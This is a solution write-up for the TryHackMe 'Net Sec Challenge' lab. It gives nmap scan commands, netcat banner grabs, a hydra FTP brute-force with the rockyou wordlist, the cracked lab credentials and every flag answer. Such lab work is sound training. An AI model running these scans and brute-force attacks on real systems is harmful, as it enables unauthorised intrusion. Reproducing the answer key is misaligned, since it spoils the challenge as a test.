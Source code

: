 # Solution

## URL
- [Net Sec Challenge](https://tryhackme.com/room/netsecchallenge)

## Steps

### Task 2:
#### What is the highest port number being open less than 10,000?
1. Run the command `sudo nmap -v -sS 10.10.122.54 -p- | tee nmap-scan.txt`.
2. The answer is `8080`.

#### There is an open port outside the common 1000 ports; it is above 10,000. What is it?
1. The answer is `10021`.

#### How many TCP ports are open?
1. The answer is `6`.

#### What is the flag hidden in the HTTP server header?
1. Enter these commands:
    ```
    nc 10.10.122.54 80
    GET / HTTP/1.1
    <Press ENTER twice>
    ```
2. Got the flag: `THM{web_server_25352}`.

#### What is the flag hidden in the SSH server header?
1. Enter the command: `nc 10.10.122.54 22`.
2. Got the flag: `THM{946219583339}`.

#### We have an FTP server listening on a nonstandard port. What is the version of the FTP server?
1. Run the command: `nmap -v -sV 10.10.122.54 -p 10021`.
2. The answer is `vsftpd 3.0.3`.

#### We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?
1. Enter the command: `hydra -VV -t 16 -L usernames.dic -P /usr/share/wordlists/rockyou.txt 10.10.122.54 -s 10021 ftp | tee hydra-ftp.attack`.
2. Found a pair of valid credentials: `eddie:jordan` and `quinn:andrea`.
3. Connecting to eddie's account: `ftp eddie@10.10.122.54 -p 10021`. Enumerating the files using `ls -al` returns not much.
4. Connecting to quinn's account: `ftp quinn@10.10.122.54 -p 10021`. Enumerating the files using `ls -al` returns a file named `ftp_flag.txt`.
5. Download it using `get ftp_flag.txt` and exit FTP console.
6. Reading the file we get the flag: `THM{321452667098}`.

#### Browsing to http://10.10.122.54:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?
1. Go to http://10.10.122.54:8080.
2. In Attack Box run the command: `nmap -v -sN 10.10.122.54`.
3. Got the flag: `THM{f7443f99}`.